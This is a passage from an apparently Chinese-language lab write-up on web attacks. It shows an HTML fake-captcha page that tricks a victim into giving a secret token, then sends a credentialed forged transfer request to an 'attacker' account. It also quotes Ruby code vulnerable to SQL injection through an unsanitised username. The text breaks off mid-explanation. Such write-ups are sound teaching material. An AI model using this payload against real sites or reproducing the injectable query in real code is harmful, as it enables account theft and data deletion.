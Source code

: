 ```
    <iframe src="bp2.html" scrolling="no"></iframe>
  </body>
</html>
bp2.html
<p>请输入 super_secure_post_transfer 页面下的 Super Secret Token 来证明你不是机器人</p>

< input id="token" type="text" placeholder="Captcha">
<button onClick="gotEm()">Confirm</button>

<script>
function gotEm() {
  var token = document.getElementById("token").value;
  var request = new XMLHttpRequest();
  request.open("POST", "http://localhost:3000/super_secure_post_transfer", false);
  request.setRequestHeader("Content-type","application/x-www-form-urlencoded");
  request.withCredentials = true;
  try {
    request.send("quantity=10&destination_username=attacker&tokeninput=" + token);
  } catch (err) {
    // Do nothing on inevitable XSS error
  } finally {
    window.top.location = "http://baidu.com";
  }
}
</script>
```

 Attack 5: Little Bobby Tables (aka SQL Injection)

删除用户的逻辑如下

```ruby
  def post_delete_user
    if not logged_in?
      render "main/must_login"
      return
    end

    @username = @logged_in_user.username
    User.destroy_all("username = '{@username}'")

    reset_session
    @logged_in_user = nil
    render "user/delete_user_success"
  end
```

可以看到输入的用户名没有经过任何的过滤直接拼接到了SQL语句中，我们看到后台执行的SQL语句


如果我们的用户名中含有user3即可将user3删除

那么如果我们注册用户
